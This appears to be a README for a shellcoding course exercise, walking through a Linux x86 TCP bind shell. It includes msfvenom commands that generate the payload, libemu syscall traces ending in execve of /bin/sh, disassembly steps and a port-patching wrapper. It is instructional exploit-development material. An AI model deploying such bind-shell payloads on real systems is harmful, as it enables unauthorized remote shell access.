# Exercise 1


## Usage

```
python wrapper.py $PORT
```

Example with port 7777:



Then it can be compiled and executed:




Result:




If the port causes problems, a warning message will appear:




## First approach: Libemu

After installing Libemu, we will use the *sctest* binary. We can get the result using the binary directly or the *libemu.sh* script (in **scripts/** folder):

```
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888 | ./sctest -vvv -Ss 10000 -G bindshell.dot

-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888" bindshell | tee libemu_res/libemu_res.txt
```


The result:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000010 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```


Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat:

```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363
```

Or the *syscallhex.sh* script (in **scripts/** folder)

```
sh syscallhex.sh listen
```

Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"


Knowing this and the values from the Libemu's output, it is possible to write the nasm code.


### Creating the Python wrapper 

Get the shellcode changing the "\\" to "\\\\":


Detect where the port (8888 or 0x22b8 in hexadecimal) is being used:



Now we know the value in the original shellcode which must be substituted:



After this, we just must take the input to the wrapper script, translate the port number to hexadecimal (in big endian format) and print the new shellcode with the port updated.


## Second approach: Ndisasm

A second approach, which can be considered easier, is to get the nasm file from the raw output from msfvenom:
```
msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 --platform=Linux -a x86 -f raw | ndisasm -u -
```




It can be compiled:




And it works correctly:




## Some useful links
```
http://man7.org/linux/man-pages/man2/socket.2.html
https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
http://man7.org/linux/man-pages/man2/socket.2.html
https://rosettacode.org/wiki/Sockets
http://www6.uniovi.es/cscene/CS5/CS5-05.html
https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm
```


-------------------------------------------------

## Deleting NOPs

[socket] generates NOPs:


It is possible to solve it using the stack:


[accept_res] generates NOPs:


It is possible to solve it using the stack:



There is not NOPs anymore:

